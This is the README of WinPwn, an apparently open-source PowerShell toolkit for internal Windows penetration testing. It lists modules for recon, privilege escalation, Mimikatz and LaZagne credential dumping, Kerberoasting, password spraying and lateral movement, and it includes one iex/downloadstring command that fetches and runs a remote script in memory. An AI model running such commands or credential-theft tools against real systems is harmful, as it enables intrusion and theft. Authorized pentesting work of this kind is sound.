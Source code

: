 # WinPwn
Still much work to do - Automation for internal Windows Penetrationtest. 

	1) Automatic Proxy Detection
	2) Elevated or unelevated Detection
  	3) Forensic Mode oder Pentest Mode 
		a. Forensik -> Loki + PSRECON + Todo: Threathunting functions
		b. Pentest -> Internal Windows Domain System 
			i. Inveigh NBNS/SMB/HTTPS Spoofing
			ii. Local Reconing -> Hostenum, SessionGopher, FileSearch, PSRecon
			iii. Domain Reconing -> GetExploitableSystems, Powerview functions, ACL-Analysis, ADRecon
				1) Todo: Grouper for Group Policy overview
			iv. Privilege Escalation -> Powersploit (Allchecks), GPP-Passwords,  MS-Exploit Search (Sherlock), WCMDump, JAWS
			v. Lazagne Password recovery
			vi. Exploitation -> Kerberoasting, Mimikittenz, Mimikatz with Admin-rights
			vii. LateralMovement ->  FindLocalAdminAccess 
				1) Invoke-MassMimikatz || Powershell Empire Remote Launcher Execution over WMI
				2) DomainPasswordspray
				
			viii. Share Enumeration
			ix. FindGPOLocation --> Search for user/group rights 
			x. Find-Fruit

Just Import the Modules with "Import-Module .\WinPwn_v0.5.ps1" or with 
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.5.ps1')

Functions available after Import:
1) #### `isadmin` -> Checks for local admin access
2) #### `Inveigh` -> Executes Inveigh in a new Console window (https://github.com/Kevin-Robertson/Inveigh)
3) #### `sessionGopher` -> Executes Sessiongopher in memory (https://github.com/Arvanaghi/SessionGopher)
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz after with admin rights (https://github.com/PowerShellMafia/PowerSploit)
5) #### `localreconmodules` -> Executes different Get-Computerdetails and Just another Windows Privilege escalation script + Winspect (https://github.com/PowerShellMafia/PowerSploit, https://github.com/A-mIn3/WINspect, https://github.com/411Hall/JAWS)
6) #### `JAWS` -> Just another Windows Privilege Escalation script gets executed
7) #### `domainreconmodules` -> Different Powerview situal awareness functions get executed and the output stored on disk. In Addition a Userlist for DomainpasswordSpray gets stored on disk. An AD-Report is generated as CSV Files (or XLS if excel is installed) with ADRecon. (https://github.com/sense-of-security/ADRecon, https://github.com/PowerShellMafia/PowerSploit, https://github.com/dafthack/DomainPasswordSpray)
8) #### `Privescmodules` -> Executes different privesc scripts in memory (Sherlock https://github.com/rasta-mouse/Sherlock, PowerUp, GPP-Files, WCMDump)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) (https://github.com/AlessandroZ/LaZagne)
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. Domainpassword-Spray for new Credentials can also be done here.
11) #### `empirelauncher` -> Launch powershell empire oneliner for remote Systems (https://github.com/EmpireProject/Empire)
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder from Powerview (Powersploit)
13) #### `groupsearch` -> FindGPOLocation (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Windows%20PowerShell.png)


## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
